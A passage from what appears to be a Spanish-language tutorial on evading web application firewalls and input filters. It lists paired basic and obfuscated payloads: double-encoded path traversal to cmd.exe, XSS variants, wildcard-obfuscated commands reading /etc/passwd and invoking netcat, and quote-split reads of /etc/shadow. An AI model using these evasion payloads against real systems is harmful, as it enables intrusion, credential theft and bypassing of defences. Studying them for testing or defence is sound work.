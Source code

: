 > http://example/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\

**Solicitud básica:**

> <script>confirm()</script>

**Ofuscar carga útil:**

> %253Cscript%253Econfirm()%253C%252Fscript%253E

### **8. Técnica de ofuscación con comodines**

Varias utilidades de línea de comandos utilizan patrones globales para trabajar con varios archivos. Podemos cambiarlos para ejecutar comandos del sistema.

**Solicitud básica:**

> /bin/cat /etc/passwd

**Ofuscar carga útil:**

> /???/??t /???/??ss??

**Caracteres usados:**

> / ? t s

**Solicitud básica:**

> /bin/nc 127.0.0.1 443

**Ofuscar carga útil:**

> /???/n? 2130706433 443

**Caracteres usados:**

> / ? n [0-9]

### **9. Técnica de generación de carga útil dinámica:**

Los lenguajes de programación tienen diferentes patrones y sintaxis para la concatenación. Esto nos permite generar cargas útiles que pueden eludir muchos filtros y reglas.

**Solicitud básica:**

> <script>confirm()</script>

**Ofuscar carga útil:**

> <script>eval('con'+'fi'+'rm()')</script>

**Solicitud básica:**

> /bin/cat /etc/shadow

**Ofuscar carga útil:**

> /bi'n'''/c''at' /e'tc'/sh''ad'ow

Bash permite la concatenación de rutas para su ejecución.

**Solicitud básica:**
